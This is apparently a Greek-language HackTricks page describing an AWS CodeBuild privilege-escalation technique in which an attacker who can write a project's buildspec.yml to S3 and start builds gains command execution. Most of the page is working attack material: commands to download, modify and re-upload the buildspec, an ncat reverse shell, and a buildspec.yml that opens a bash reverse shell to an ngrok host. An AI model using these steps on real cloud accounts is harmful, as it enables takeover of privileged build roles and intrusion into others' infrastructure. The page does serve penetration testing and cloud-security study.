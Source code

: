### (`codebuild:StartBuild` | `codebuild:StartBuildBatch`), `s3:GetObject`, `s3:PutObject`

Ένας επιτιθέμενος που μπορεί να ξεκινήσει/επανεκκινήσει μια διαδικασία κατασκευής ενός συγκεκριμένου έργου CodeBuild που αποθηκεύει το αρχείο `buildspec.yml` σε ένα S3 bucket στο οποίο ο επιτιθέμενος έχει δικαίωμα εγγραφής, μπορεί να αποκτήσει εκτέλεση εντολών στη διαδικασία CodeBuild.

Σημείωση: η κλιμάκωση είναι σχετική μόνο αν ο εργάτης CodeBuild έχει διαφορετικό ρόλο, ελπίζουμε πιο προνομιακό, από αυτόν του επιτιθέμενου.
```bash
aws s3 cp s3://<build-configuration-files-bucket>/buildspec.yml ./

vim ./buildspec.yml

# Add the following lines in the "phases > pre_builds > commands" section
#
#    - apt-get install nmap -y
#    - ncat <IP> <PORT> -e /bin/sh

aws s3 cp ./buildspec.yml s3://<build-configuration-files-bucket>/buildspec.yml

aws codebuild start-build --project-name <project-name>

# Wait for the reverse shell :)
```
Μπορείτε να χρησιμοποιήσετε κάτι σαν αυτό το **buildspec** για να αποκτήσετε μια **reverse shell**:

{% code title="buildspec.yml" %}
```yaml
version: 0.2

phases:
build:
commands:
- bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18419 0>&1
```
{% endcode %}

**Impact:** Άμεση εκμετάλλευση δικαιωμάτων στον ρόλο που χρησιμοποιείται από τον εργαζόμενο AWS CodeBuild, ο οποίος συνήθως έχει υψηλά δικαιώματα.

{% hint style="warning" %}
Σημειώστε ότι το buildspec θα μπορούσε να αναμένεται σε μορφή zip, οπότε ένας επιτιθέμενος θα χρειαστεί να κατεβάσει, να αποσυμπιέσει, να τροποποιήσει το `buildspec.yml` από τον ριζικό κατάλογο, να συμπιέσει ξανά και να ανεβάσει.
{% endhint %}

Περισσότερες λεπτομέρειες μπορούν να βρεθούν [εδώ](https://www.shielder.com/blog/2023/07/aws-codebuild--s3-privilege-escalation/).

**Potential Impact:** Άμεση εκμετάλλευση δικαιωμάτων στους συνδεδεμένους ρόλους AWS Codebuild.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\